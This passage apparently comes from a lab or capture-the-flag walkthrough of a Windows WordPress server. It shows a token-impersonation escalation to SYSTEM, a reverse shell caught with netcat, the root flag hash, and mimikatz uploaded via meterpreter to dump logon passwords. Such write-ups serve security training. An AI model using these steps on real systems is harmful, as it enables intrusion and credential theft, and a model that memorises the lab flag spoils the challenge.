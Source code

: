 Next, we execute the netcat shell using the following command (from the first reverse shell running on port 1234).

~~~
C:\inetpub\wwwroot\wordpress\wp-content\uploads>js.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\shell.bat -l 1337
js.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\shell.bat -l 1337
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\inetpub\wwwroot\wordpress\wp-content\uploads>
~~~

Note: We can use another CLSID `-c {bb6df56b-cace-11dc-9992-0019b93a3a84}`, if our payload is not working.

The root flag is located in `C:\Users\Administrator\Desktop`.

~~~
unknown@kali:~/Downloads$ rlwrap nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.10.14.195] from (UNKNOWN) [10.10.10.29] 49802
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
nt authority\system
PS C:\Windows\system32> more \users\administrator\desktop\root.txt
more \users\administrator\desktop\root.txt
6e9a9fdc6f64e410a68b847bb4b404fa

PS C:\Windows\system32> 
~~~

# Post Exploitation

Mimikatz can be used to dump cached passwords. From the meterpreter session:

~~~
meterpreter > upload mimikatz.exe
[*] uploading  : mimikatz.exe -> mimikatz.exe
[*] Uploaded -1.00 B of 984.76 KiB (0.0%): mimikatz.exe -> mimikatz.exe
[*] uploaded   : mimikatz.exe -> mimikatz.exe
~~~

We execute mimikatz and use the sekurlsa command to extract logon passwords:

~~~
PS C:\inetpub\wwwroot\wordpress\wp-content\uploads> ./mimikatz.exe
./mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 May 19 2020 00:48:59
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 6560321 (00000000:00641a41)
Session           : Service from 0
~~~